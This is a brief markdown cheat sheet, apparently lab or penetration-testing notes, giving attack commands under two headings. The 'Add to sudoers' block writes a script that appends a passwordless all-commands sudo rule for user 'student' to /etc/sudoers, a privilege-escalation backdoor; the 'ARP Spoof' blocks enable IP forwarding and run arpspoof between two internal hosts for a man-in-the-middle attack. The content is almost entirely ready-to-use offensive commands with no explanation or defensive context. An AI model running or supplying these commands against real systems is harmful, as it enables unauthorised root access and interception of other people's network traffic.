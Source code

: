 
## Add to sudoers

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers\n' > /usr/local/share/copy.sh
```

## ARP Spoof

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```bash
arpspoof -i eth1 -t 10.100.13.7 -r 10.100.13.36
```